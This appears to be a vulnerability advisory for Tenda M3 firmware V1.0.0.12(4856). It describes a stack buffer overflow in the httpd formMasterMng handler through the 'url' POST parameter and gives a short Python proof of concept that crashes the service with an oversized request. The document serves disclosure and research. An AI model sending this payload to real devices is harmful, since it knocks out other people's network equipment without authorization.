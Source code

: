 ## Overview

- The device's official website: https://www.tenda.com.cn/product/M3.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3133.html

## Affected version

V1.0.0.12(4856)

## Vulnerability details

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formMasterMng` function, which can be accessed via the URL `goform/getMasterMng`

<img src="img/image-20220527170554311.png" alt="image-20220527170554311" style="zoom:67%;" />

`formMasterMng` function gets the POST parameter `url` and copies to stack buffer without checking its length, causing a stack overflow vulnerability.

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"url": b'A'*0x400,
}
cookies = {
    b"user": "admin"
}
res = requests.post("http://127.0.0.1/goform/getMasterMng", data=data, cookies=cookies)
print(res.content)
```

